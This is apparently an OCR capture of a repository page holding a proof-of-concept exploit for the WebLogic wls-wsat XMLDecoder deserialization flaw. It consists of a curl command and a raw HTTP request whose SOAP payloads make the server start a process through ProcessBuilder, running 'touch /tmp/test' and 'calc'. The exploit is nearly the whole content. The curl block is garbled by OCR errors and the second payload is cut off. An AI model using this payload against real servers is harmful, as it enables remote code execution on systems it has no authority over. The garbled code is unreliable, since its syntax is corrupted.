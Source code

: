 

https://docs.oracle.com/middleware/12213/wls/WSOVR/toc.htm

http://liehu.tass.com.cn/archives/542?utm_source=tuicool&utm_medium=referral



poc

```bash
curl -X POST \
http:// IP:port/wls-wsat/CoordinatorPortType \
-H ’cache-control: no-cache' \
-H 'cont|ent-type: text/xml' \
-d <soapenv:EnveI ope xmI ns:soapenv="http://schemas, xmI soap, org/soap/enveIope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea. com/2004/06/soap/workarea/">
<java version="1.8" class="java. beans. XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>touch /tmp/test</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
```





```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
Content-type: text/xml
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: bamboo.dash.display.toggles=buildQueueActions-actions-queueControl; BAMBOO-BUILD-FILTER=LAST_25_BUILDS; BAMBOO-MAX-DISPLAY-LINES=25; AJS.conglomerate.cookie="|tabContainer.relies_32_12_0977.selectedTab=Agents|tabContainer.tabContainer.selectedTab=User%20Details|tabContainer.remote-agents-tabs.selectedTab=Online%20remote%20agents"; ADMINCONSOLESESSION=Y2pWh8NQVZBNp36Q2QX1pVJfhnKGHtwF2BHs0kFZ1rLP2NCFBNpG!1508209308
Content-Length: 482

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
<soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.8" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="1">
<void index="0">
<string>calc</string>
</void>
</array>
<void method="start"/></void>
```